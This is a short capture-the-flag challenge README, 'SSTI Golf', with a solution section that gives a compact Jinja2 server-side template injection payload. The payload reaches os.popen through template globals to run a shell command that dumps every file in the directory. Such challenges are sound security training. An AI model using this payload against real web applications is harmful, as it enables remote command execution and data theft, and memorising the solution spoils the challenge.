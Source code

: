 # SSTI Golf
**Category:** Web
**Difficulty:** Easy-Medium
**Author:** puzzler7

## Description

Just in case you didn't get *enough* golf with the other challenge. Flag is in an arbitrarily named file, but in the same directory.

## Distribution

- website

## Deploy notes

- needs hd on the remote (which I think is standard?) - otherwise I'll need to increase the limit to 50 and the solution will use cat.

## Solution

- `{{cycler.next.__globals__.os.popen('hd *')|min}}`
